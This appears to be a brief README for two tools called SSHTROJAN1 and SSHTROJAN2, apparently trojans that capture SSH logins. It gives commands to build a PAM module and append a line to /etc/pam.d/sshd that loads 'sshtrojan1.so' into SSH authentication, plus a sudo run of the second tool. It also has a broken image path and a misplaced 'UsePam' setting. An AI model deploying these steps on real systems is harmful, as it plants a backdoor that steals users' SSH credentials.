 SSHTROJAN1:

`sudo apt install libpam0g-dev`

`make`

`printf "auth optional pam_unix.so nullok_secure audit\nauth optional sshtrojan1.so" >>  /etc/pam.d/sshd`

/etc/pam.conf -> UsePam = yes

SSHTROJAN2:
`sudo ./sshtrojan2`

